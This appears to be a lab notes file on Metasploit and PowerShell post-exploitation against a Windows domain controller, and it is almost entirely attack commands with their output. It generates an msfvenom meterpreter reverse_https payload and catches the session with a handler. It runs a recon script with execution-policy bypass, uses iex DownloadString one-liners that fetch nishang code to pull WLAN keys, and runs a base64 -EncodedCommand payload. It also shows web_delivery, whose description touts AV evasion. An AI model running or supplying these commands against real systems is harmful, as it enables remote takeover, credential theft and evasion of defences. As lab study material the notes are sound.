

#### 53. Metasploit Part 2

###### Manually executing scripts and modules

- Upload a script
- Use download and execute one liner
- Use –EncodedCommand parameter of PowerShell

- Generate ```Reverse Shell``` using ```msfvenom```

```sh
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.206 -f psh > ps_payload64.ps1
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 743 bytes
Final size of psh file: 4380 bytes
root@kali:~#
``` 

```sh
root@kali:~# file ps_payload64.ps1
ps_payload64.ps1: ASCII text, with very long lines, with CRLF line terminators 
root@kali:~#
```

- Execute the ```Reverse Shell``` on victim

```PowerShell
PS C:\Users\Administrator\Desktop> .\ps_payload64.ps1
2004
PS C:\Users\Administrator\Desktop>
```

- Setup ```multi handler```

```sh
root@kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > set LHOST 10.0.0.206
LHOST => 10.0.0.206
msf exploit(handler) > exploit

[*] Started HTTPS reverse handler on https://10.0.0.206:8443
[*] Starting the payload handler...
[*] https://10.0.0.206:8443 handling request from 10.0.0.233; (UUID: yc9exijd) Staging x64 payload (1190467 bytes) ...
[*] Meterpreter session 1 opened (10.0.0.206:8443 -> 10.0.0.233:24056) at 2017-07-18 22:28:14 -0400

meterpreter > pwd
C:\Users\Administrator
meterpreter >
```

- Upload a ```script```
	
	```sh
	meterpreter > upload /root/Get-Information.ps1 C:\\Users\\Administrator
	[*] uploading  : /root/Get-Information.ps1 -> C:\Users\Administrator
	[*] uploaded   : /root/Get-Information.ps1 -> C:\Users\Administrator\Get-Information.ps1
	meterpreter > shell
	Process 2664 created.
	Channel 2 created.
	Microsoft Windows [Version 6.3.9600]
	(c) 2013 Microsoft Corporation. All rights reserved.
	C:\Users\Administrator>dir
	dir
	 Volume in drive C has no label.
	 Volume Serial Number is 00CC-8AA0
	
	 Directory of C:\Users\Administrator
	
	07/18/2017  07:32 PM    <DIR>          .
	07/18/2017  07:32 PM    <DIR>          ..
	07/13/2017  12:59 PM    <DIR>          Contacts
	07/18/2017  07:28 PM    <DIR>          Desktop
	07/17/2017  11:37 AM    <DIR>          Documents
	07/18/2017  05:24 PM    <DIR>          Downloads
	07/13/2017  12:59 PM    <DIR>          Favorites
	07/18/2017  07:32 PM             3,628 Get-Information.ps1
	07/13/2017  12:59 PM    <DIR>          Links
	07/13/2017  12:59 PM    <DIR>          Music
	07/13/2017  12:59 PM    <DIR>          Pictures
	07/13/2017  12:59 PM    <DIR>          Saved Games
	07/13/2017  12:59 PM    <DIR>          Searches
	07/13/2017  12:59 PM    <DIR>          Videos
	               1 File(s)          3,628 bytes
	              13 Dir(s)   8,540,938,240 bytes free
	
	C:\Users\Administrator>
	```
	
	```sh
	C:\Users\Administrator>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass . .\Get-Information.ps1;Get-Information
	
	Logged in users:
	C:\Windows\system32\config\systemprofile
	C:\Windows\ServiceProfiles\LocalService
	C:\Windows\ServiceProfiles\NetworkService
	C:\Users\Administrator
	C:\Users\MSSQLSERVER
	
	 Powershell environment:
	Install
	PID
	ConsoleHostShortcutTargetX86
	ConsoleHostShortcutTarget
	Install
	
	 Putty trusted hosts:
	
	
	 Putty saved sessions:
	
	
	 Recently used commands:
	regedit\1
	a
	
	 Shares on the machine:
	CATimeout=0
	CSCFlags=4352
	MaxUses=4294967295
	Path=C:\Windows\SYSVOL\sysvol
	Permissions=0
	Remark=Logon server share
	ShareName=SYSVOL
	Type=0
	CATimeout=0
	CSCFlags=4352
	MaxUses=4294967295
	Path=C:\Windows\SYSVOL\sysvol\pfpt.com\SCRIPTS
	Permissions=0
	Remark=Logon server share
	ShareName=NETLOGON
	Type=0
	
	 Environment variables:
	C:\Windows\system32\cmd.exe
	NO
	1
	Windows_NT
	C:\ProgramData\Oracle\Java\javapath;C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Python27;C:\Program Files\Java\jdk1.8.0_131\bin
	.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
	AMD64
	Intel64 Family 6 Model 78 Stepping 3, GenuineIntel
	6
	4e03
	C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
	C:\Windows\TEMP
	C:\Windows\TEMP
	SYSTEM
	C:\Windows
	
	 More details for current user:
	\\WIN-2012-DC
	PFPT.COM
	PFPT
	Administrator
	C:\Users\Administrator
	\Users\Administrator
	C:
	C:\Users\Administrator\AppData\Roaming
	C:\Users\Administrator\AppData\Local
	PFPT
	
	 SNMP community strings:
	
	
	 SNMP community strings for current user:
	
	
	 Installed Applications:
	
	Microsoft Help Viewer 1.1
	Microsoft Visual Studio 2010 Tools for Office Runtime (x64)
	Mozilla Firefox 54.0.1 (x64 en-US)
	Mozilla Maintenance Service
	Oracle VM VirtualBox Guest Additions 5.1.22
	
	Microsoft Visual C++ 2010  x64 Redistributable - 10.0.40219
	Java 8 Update 131 (64-bit)
	Java SE Development Kit 8 Update 131 (64-bit)
	Visual Studio 2010 Prerequisites - English
	Microsoft Office Office 64-bit Components 2010
	Microsoft Office Shared 64-bit MUI (English) 2010
	Microsoft Office Shared 64-bit Setup Metadata MUI (English) 2010
	Microsoft Visual Studio 2010 Tools for Office Runtime (x64)
	Microsoft Help Viewer 1.1
	
	 Installed Applications for current user:
	
	
	 Domain Name:
	0
	pfpt.com
	4294967295
	\\WIN-2012-DC.pfpt.com
	
	0
	
	 Contents of /etc/hosts:
	# Copyright (c) 1993-2009 Microsoft Corp.
	#
	# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
	#
	# This file contains the mappings of IP addresses to host names. Each
	# entry should be kept on an individual line. The IP address should
	# be placed in the first column followed by the corresponding host name.
	# The IP address and the host name should be separated by at least one
	# space.
	#
	# Additionally, comments (such as these) may be inserted on individual
	# lines or following the machine name denoted by a '#' symbol.
	#
	# For example:
	#
	#      102.54.94.97     rhino.acme.com          # source server
	#       38.25.63.10     x.acme.com              # x client host
	
	# localhost name resolution is handled within DNS itself.
	#	127.0.0.1       localhost
	#	::1             localhost
	
	 Running Services:
	These Windows services are started:
	
	   Active Directory Domain Services
	   Active Directory Web Services
	   Background Intelligent Transfer Service
	   Background Tasks Infrastructure Service
	   Base Filtering Engine
	   Certificate Propagation
	   COM+ Event System
	   Cryptographic Services
	   DCOM Server Process Launcher
	   DFS Namespace
	   DFS Replication
	   DHCP Client
	   Diagnostic Policy Service
	   Diagnostics Tracking Service
	   Distributed Transaction Coordinator
	   DNS Client
	   DNS Server
	   Group Policy Client
	   IKE and AuthIP IPsec Keying Modules
	   Intersite Messaging
	   IP Helper
	   IPsec Policy Agent
	   Kerberos Key Distribution Center
	   Local Session Manager
	   Netlogon
	   Network List Service
	   Network Location Awareness
	   Network Store Interface Service
	   Plug and Play
	   Power
	   Print Spooler
	   Remote Desktop Configuration
	   Remote Desktop Services
	   Remote Desktop Services UserMode Port Redirector
	   Remote Procedure Call (RPC)
	   RPC Endpoint Mapper
	   Security Accounts Manager
	   Server
	   Shell Hardware Detection
	   System Event Notification Service
	   System Events Broker
	   Task Scheduler
	   TCP/IP NetBIOS Helper
	   Themes
	   User Access Logging Service
	   User Profile Service
	   Virtual Disk
	   VirtualBox Guest Additions Service
	   Windows Connection Manager
	   Windows Event Log
	   Windows Firewall
	   Windows Font Cache Service
	   Windows Licensing Monitoring Service
	   Windows Management Instrumentation
	   Windows Remote Management (WS-Management)
	   Windows Time
	   WinHTTP Web Proxy Auto-Discovery Service
	   Workstation
	
	The command completed successfully.
	
	
	 Account Policy:
	Force user logoff how long after time expires?:       Never
	Minimum password age (days):                          1
	Maximum password age (days):                          42
	Minimum password length:                              7
	Length of password history maintained:                24
	Lockout threshold:                                    Never
	Lockout duration (minutes):                           30
	Lockout observation window (minutes):                 30
	Computer role:                                        PRIMARY
	The command completed successfully.
	
	
	 Local users:
	
	User accounts for \\WIN-2012-DC
	
	-------------------------------------------------------------------------------
	Administrator            Guest                    krbtgt
	The command completed successfully.
	
	
	 Local Groups:
	
	Aliases for \\WIN-2012-DC
	
	-------------------------------------------------------------------------------
	*Access Control Assistance Operators
	*Account Operators
	*Administrators
	*Allowed RODC Password Replication Group
	*Backup Operators
	*Cert Publishers
	*Certificate Service DCOM Access
	*Cryptographic Operators
	*Denied RODC Password Replication Group
	*Distributed COM Users
	*DnsAdmins
	*Event Log Readers
	*Guests
	*HelpLibraryUpdaters
	*Hyper-V Administrators
	*IIS_IUSRS
	*Incoming Forest Trust Builders
	*Network Configuration Operators
	*Performance Log Users
	*Performance Monitor Users
	*Pre-Windows 2000 Compatible Access
	*Print Operators
	*RAS and IAS Servers
	*RDS Endpoint Servers
	*RDS Management Servers
	*RDS Remote Access Servers
	*Remote Desktop Users
	*Remote Management Users
	*Replicator
	*Server Operators
	*Terminal Server License Servers
	*Users
	*Windows Authorization Access Group
	*WinRMRemoteWMIUsers__
	The command completed successfully.
	
	
	 WLAN Info:
	The following command was not found: wlan show all.
	
	C:\Users\Administrator>
	```
	
- Use download and execute one liner
	
	```sh
	C:\Users\Administrator>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/powerpreter/Powerpreter.psm1'));Get-WLAN-Keys
	C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/powerpreter/Powerpreter.psm1'));Get-WLAN-Keys
	
	C:\Users\Administrator>
	```
	
	```sh
	C:\Users\Administrator>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/powerpreter/Powerpreter.psm1'));Check-VM
	C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/powerpreter/Powerpreter.psm1'));Check-VM
	This is a Hyper-V machine.
	This is a Virtual Box.
	
	C:\Users\Administrator>
	```
	
- Use –EncodedCommand parameter of PowerShell
	
	In Windows
		
	Call the function at the end of the script
	
	
	
	```PowerShell
	PS C:\Users\Administrator\Desktop\nishang-master> Import-Module .\nishang.psm1
	WARNING: The names of some imported commands from the module 'nishang' include unapproved verbs that might make them less discoverable. To find the commands with unapproved verbs, run the Import-Module
	command again with the Verbose parameter. For a list of approved verbs, type Get-Verb.
	WARNING: Some imported command names contain one or more of the following restricted characters: # , ( ) {{ }} [ ] & - / \ $ ^ ; : " ' < > | ? @ ` * % + = ~
	PS C:\Users\Administrator\Desktop\nishang-master>
	```
	
	```PowerShell
	PS C:\Users\Administrator\Desktop\nishang-master> Invoke-Encode .\Gather\Get-WLAN-Keys.ps1 -OutCommand
	Encoded data written to .\encoded.txt
	Encoded command written to .\encodedcommand.txt
	PS C:\Users\Administrator\Desktop\nishang-master>
	```
	
	In Metasploit shell
	
	```sh
	C:\Users\Administrator>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAgACgAJAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ALgBEAGUAZgBsAGEAdABlAFMAdAByAGUAYQBtACAAKAAkACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACAAKAAsACQAKABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAZABaAEoAUgBhADkAcwB3AEUATQBmAGYAQgBmAG8ATwBoADUAdQBIAEIARwBhADcAZQB4AHEAVQBwAFoAQgAxADIAUQBqAE4ASABGAE4AbgBkAEcATwBNAG8AdABnAFgAUwA2AHMAcwBHAGUAbgBjAHQASABUADcANwBwAFAAdABVAEwAcQB0ADAANAB1AFEANwB2ADYALwAvADUAMQAwACsAOAA2AFUAcABLAHkAQgBqADAAagB4AHQAUgBZAG0AdgBzAFEASABEADUAdwA5AGMAdgBiADIAaABMAE8AawArAEoAcAB0ADgAbQBKAFYAYwBKAFkAcABMADQAVwBwAEkAUgBjAFAAMgBvAG8ASwBEAGwASwBWAEUAcQBxAHUAYQBUADMAYwA5AHEASwA5AGQAWABDADkAWABtAFQAUQBPAHIAdABYAEcAbgAzAEMAVwBTAEMAOABYAHgAWQBYAFYANgB0ADgAdQA5AHAAawBuAEcAMgBsADgAdABBAGUAQwBjACsAMAB5AGsAQwBwAFUAVABnAGcAdgBLAGUAQgA1AE0AVQBkAFYAdgAvAHcAdABoAEsAZgA1AEUAMwBuAEMAWABZAEkAcgBqAE8AdwBkADcAWQBCADQAVQBGAFUAagBUAEwASwBrAHgATQBVAEcARwBTAGgAUgBnAEkASwBvAHQANQBsAHIARwBmADUAWgBmAEUAcABYAHkAOAA1AHkAdwBzADQASAAvAHMATwBKAGsAUABmAFEAMwB5ADkAeQBpADQANQBrADAAVAB0AFcAWgBxADIAMQBzAHYAUwBWAHAAaABZAFYANgBlAHYAMwA1AHkAZQBqAGgARQBmAFEAcgBVAGkAMgBlADIAUwAwAGoAYQBwAEYAMAAwAHcARgBGADcAYQAyADkAUwBNAHoAOABUAFoAeQBYAG0AUAArADMAYgBSAFYAQgByAHAAbgBUAEsAVgBNAHYAVgAwADkAagAzADQAQwBpAGMAYQBtAE0ANwA2AE0ASQBRADEATwBZAFIAMwA5AHoAQQBIAGcAKwBRAGwAOQBDAGMASQBxAE0ATgBUADMALwBBAFQAQwB0AFIAWQBVAGwAeQBRAEMAeABTAEkAYwAwAEcARQB6AGsAQwAwADAAQgBvACsAZQAzAFMAUQBqADcAbABSAHkAUAAxAGcASABZAHAAUwB4AHAAdgBkAGoANgBDAEIAeAA4AGwATgBzAHIAVwBqAGMAagByADcAZABmAFQARQArADkAWQA2AHEAawBMAFYAdwBmAGgAWQB3AFkAdgBTAEsAMgB5ADEASwBIAEUAYQA5AGIASwAvADcAZgBvADcATwBJAFAAbwAxAGMAUgAwAFcAcgA4AEUASAA1AGoATAA1ADgAegAvAGQAbQBsAEUAZwAvAE4AbwBjAGgAUAAxAG4AegBVAGYAeABtAEUARQBjAGgAYgAyAFAAdwBhAFUAcwA5ADgAPQAnACkAKQApACkALAAgAFsASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApACkALAAgAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQApAC4AUgBlAGEAZABUAG8ARQBuAGQAKAApADsA
	C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAgACgAJAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ALgBEAGUAZgBsAGEAdABlAFMAdAByAGUAYQBtACAAKAAkACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACAAKAAsACQAKABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAZABaAEoAUgBhADkAcwB3AEUATQBmAGYAQgBmAG8ATwBoADUAdQBIAEIARwBhADcAZQB4AHEAVQBwAFoAQgAxADIAUQBqAE4ASABGAE4AbgBkAEcATwBNAG8AdABnAFgAUwA2AHMAcwBHAGUAbgBjAHQASABUADcANwBwAFAAdABVAEwAcQB0ADAANAB1AFEANwB2ADYALwAvADUAMQAwACsAOAA2AFUAcABLAHkAQgBqADAAagB4AHQAUgBZAG0AdgBzAFEASABEADUAdwA5AGMAdgBiADIAaABMAE8AawArAEoAcAB0ADgAbQBKAFYAYwBKAFkAcABMADQAVwBwAEkAUgBjAFAAMgBvAG8ASwBEAGwASwBWAEUAcQBxAHUAYQBUADMAYwA5AHEASwA5AGQAWABDADkAWABtAFQAUQBPAHIAdABYAEcAbgAzAEMAVwBTAEMAOABYAHgAWQBYAFYANgB0ADgAdQA5AHAAawBuAEcAMgBsADgAdABBAGUAQwBjACsAMAB5AGsAQwBwAFUAVABnAGcAdgBLAGUAQgA1AE0AVQBkAFYAdgAvAHcAdABoAEsAZgA1AEUAMwBuAEMAWABZAEkAcgBqAE8AdwBkADcAWQBCADQAVQBGAFUAagBUAEwASwBrAHgATQBVAEcARwBTAGgAUgBnAEkASwBvAHQANQBsAHIARwBmADUAWgBmAEUAcABYAHkAOAA1AHkAdwBzADQASAAvAHMATwBKAGsAUABmAFEAMwB5ADkAeQBpADQANQBrADAAVAB0AFcAWgBxADIAMQBzAHYAUwBWAHAAaABZAFYANgBlAHYAMwA1AHkAZQBqAGgARQBmAFEAcgBVAGkAMgBlADIAUwAwAGoAYQBwAEYAMAAwAHcARgBGADcAYQAyADkAUwBNAHoAOABUAFoAeQBYAG0AUAArADMAYgBSAFYAQgByAHAAbgBUAEsAVgBNAHYAVgAwADkAagAzADQAQwBpAGMAYQBtAE0ANwA2AE0ASQBRADEATwBZAFIAMwA5AHoAQQBIAGcAKwBRAGwAOQBDAGMASQBxAE0ATgBUADMALwBBAFQAQwB0AFIAWQBVAGwAeQBRAEMAeABTAEkAYwAwAEcARQB6AGsAQwAwADAAQgBvACsAZQAzAFMAUQBqADcAbABSAHkAUAAxAGcASABZAHAAUwB4AHAAdgBkAGoANgBDAEIAeAA4AGwATgBzAHIAVwBqAGMAagByADcAZABmAFQARQArADkAWQA2AHEAawBMAFYAdwBmAGgAWQB3AFkAdgBTAEsAMgB5ADEASwBIAEUAYQA5AGIASwAvADcAZgBvADcATwBJAFAAbwAxAGMAUgAwAFcAcgA4AEUASAA1AGoATAA1ADgAegAvAGQAbQBsAEUAZwAvAE4AbwBjAGgAUAAxAG4AegBVAGYAeABtAEUARQBjAGgAYgAyAFAAdwBhAFUAcwA5ADgAPQAnACkAKQApACkALAAgAFsASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApACkALAAgAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQApAC4AUgBlAGEAZABUAG8ARQBuAGQAKAApADsA
	
	C:\Users\Administrator>
	```

###### Using modules to execute PowerShell scripts

- post/windows/manage/powershell/exec_powershell

```sh
msf > use post/windows/manage/powershell/exec_powershell
```

```sh
msf post(exec_powershell) > show info

       Name: Windows Manage PowerShell Download and/or Execute
     Module: post/windows/manage/powershell/exec_powershell
   Platform: Windows
       Arch:
       Rank: Normal

Provided by:
  Nicholas Nam (nick <Nicholas Nam (nick@executionflow.org)>
  RageLtMan

Basic options:
  Name     Current Setting                                        Required  Description
  ----     ---------------                                        --------  -----------
  SCRIPT   /usr/share/metasploit-framework/scripts/ps/msflag.ps1  yes       Path to the local PS script
  SESSION                                                         yes       The session to run this module on.

Description:
  This module will download and execute a PowerShell script over a
  meterpreter session. The user may also enter text substitutions to
  be made in memory before execution. Setting VERBOSE to true will
  output both the script prior to execution and the results.

msf post(exec_powershell) >
```

- exploit/multi/script/web_delivery

```sh
msf > use exploit/multi/script/web_delivery
```

```sh
msf exploit(web_delivery) > show info

       Name: Script Web Delivery
     Module: exploit/multi/script/web_delivery
   Platform: Python, PHP, Windows
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Manual
  Disclosed: 2013-07-19

Provided by:
  Andrew Smith "jakx" <jakx.ppr@gmail.com>
  Ben Campbell <eat_meatballs@hotmail.co.uk>
  Chris Campbell

Available targets:
  Id  Name
  --  ----
  0   Python
  1   PHP
  2   PSH

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT  8080             yes       The local port to listen on.
  SSL      false            no        Negotiate SSL for incoming connections
  SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                   no        The URI to use for this exploit (default is random)

Payload information:

Description:
  This module quickly fires up a web server that serves a payload. The
  provided command will start the specified scripting language
  interpreter and then download and execute the payload. The main
  purpose of this module is to quickly establish a session on a target
  machine when the attacker has to manually type in the command
  himself, e.g. Command Injection, RDP Session, Local Access or maybe
  Remote Command Exec. This attack vector does not write to disk so it
  is less likely to trigger AV solutions and will allow privilege
  escalations supplied by Meterpreter. When using either of the PSH
  targets, ensure the payload architecture matches the target computer
  or use SYSWOW64 powershell.exe to execute x86 payloads on x64
  machines.

References:
  http://securitypadawan.blogspot.com/2014/02/php-meterpreter-web-delivery.html
  http://www.pentestgeek.com/2013/07/19/invoke-shellcode/
  http://www.powershellmagazine.com/2013/04/19/pstip-powershell-command-line-switches-shortcuts/
  http://www.darkoperator.com/blog/2013/3/21/powershell-basics-execution-policy-and-code-signing-part-2.html

msf exploit(web_delivery) >
```